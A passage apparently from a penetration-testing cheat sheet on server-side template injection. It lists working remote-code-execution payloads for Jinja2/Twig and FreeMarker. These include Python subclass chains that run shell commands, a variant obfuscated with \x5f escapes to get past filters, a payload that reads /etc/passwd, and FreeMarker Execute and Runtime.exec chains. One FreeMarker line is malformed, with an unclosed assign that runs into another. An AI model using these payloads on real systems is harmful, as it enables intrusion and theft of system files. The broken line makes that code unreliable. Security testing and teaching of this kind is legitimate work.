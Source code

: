 #### Pug (formerly Jade - Node.js)
*   `#{7*7}` -> `49`

### Exploiting for Remote Code Execution (RCE)

RCE payloads are highly dependent on the identified template engine and the language it's built upon. The goal is often to access objects that allow arbitrary code execution, such as:
*   Python's `__class__.__bases__[0].__subclasses__()` chain.
*   Java's `Runtime` object.
*   Ruby's `Kernel` module.
*   PHP's `system()` or `passthru()` functions.

#### Jinja2 / Twig (Python/PHP - assuming Python for example)
The common approach is to escape the sandbox by accessing core Python objects.

*   **Basic RCE payload (for Linux, to run `id`):**
    ```jinja2
    {{ "".__class__.__bases__[0].__subclasses__()[134].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()") }}
    ```
    *   *Note*: The index `[134]` can vary between Python versions and environments. You might need to enumerate `"".__class__.__bases__[0].__subclasses__()` to find a suitable class (e.g., `subprocess.Popen` or similar).

*   **Alternative for `os` import:**
    ```jinja2
    {{ config.items()[4]['\x5f\x5fclass\x5f\x5f'].\x5f\x5fmro\x5f\x5f[1].\x5f\x5fsubclasses\x5f\x5f()[268].\x5f\x5finit\x5f\x5f.\x5f\x5fglobals\x5f\x5f['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os').popen('id').read() }}
    ```
    *   *Note*: The obfuscation (`\x5f`) and indices (`[268]`) are to bypass potential filters.

*   **Read `/etc/passwd`:**
    ```jinja2
    {{ ''.__class__.mro()[1].__subclasses__()[40]('/etc/passwd').read() }}
    ```
    *   *Note*: Index `[40]` typically points to `file` or `_io.TextIOWrapper`.

#### FreeMarker (Java)
FreeMarker allows access to Java objects.

*   **Basic RCE payload (to run `id`):**
    ```freemarker
    <#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
    ```
    *   *Explanation*: This creates an instance of `freemarker.template.utility.Execute` (if available and allowed) and then uses it to run system commands.

*   **If `Execute` is not available, try `Runtime`:**
    ```freemarker
    <#assign classLoader=object?api.class.classLoader>
    <#assign method=classLoader.loadClass("java.lang.Runtime").getMethod("getRuntime",null)>
    <#assign runtime=method.invoke(null,null)>
    <#assign process=runtime.exec("id")>
    <#assign is=process.getInputStream()>
    <#assign reader=classLoader.loadClass("java.io.BufferedReader").<#assign constructor=classLoader.loadClass("java.io.InputStreamReader").getConstructor(classLoader.loadClass("java.io.InputStream"))>
    <#assign isr=constructor.newInstance(is)>
    <#assign br=classLoader.loadClass("java.io.BufferedReader").getConstructor(classLoader.loadClass("java.io.Reader")).newInstance(isr)>
    <#assign line=br.readLine()>
    ${line}
    ```
    *   *Explanation*: A more complex chain to get to `java.lang.Runtime.exec()`.
